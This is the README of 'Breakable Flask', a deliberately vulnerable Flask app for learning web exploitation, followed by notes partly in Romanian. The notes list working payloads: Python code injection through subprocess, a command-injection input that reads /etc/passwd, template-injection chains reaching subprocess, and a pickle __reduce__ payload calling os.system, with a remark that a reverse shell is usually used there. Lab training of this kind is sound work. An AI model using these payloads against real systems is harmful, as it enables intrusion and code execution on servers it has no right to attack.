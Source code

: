 # Breakable Flask


A simple vulnerable Flask application.

This can be used to test out and learn exploitation of common web application vulnerabilities. 

Originally written because I wanted a very simple, single page vulnerable app that I could quickly run up to perform exploitation checks against. 

A the moment, the following vulnerabilities are present:
* Python code injection
* Operating System command injection
* Python deserialisation of arbitrary data (pickle)
* XXE injection
* Padding oracle


New vulnerabilities may be added from time to time as I have need of them.

1.Python code injection
__import__('subprocess').Popen('uname -a',shell=True,stdout=__import__('subprocess').PIPE).stdout.read().decode('utf-8')

2.Command execution
test || cat /etc/passwd (ex)

3.Template injection
https://hackerone.com/reports/125980 - copiat dupa asta mai exact scrii {{command}} ca sa se execute, unde {{}} e templateul. Identifici cu comanda de mai jos ce biblioteci sunt folosite in cod si apoi folosesti urmatorul payload:
     {{ [].__class__.__base__.__subclasses__() }}

{{''.__class__.mro()[2].__subclasses__()[247]('uname -a',shell=True,stdout=-1).communicate()[0]}} - 247 este pozitia pe care avem biblioteca subprocess.

4.Deserialization
class Blah(object):
    def __reduce__(self):
        return (os.system,("uname -a",))
h=Blah()
base64.b64encode(cPickle.dumps(h))
----- os.system va returna 0 ceea ce inseamna ca se executa ( de fel folosesti un reverse shell pt asta)

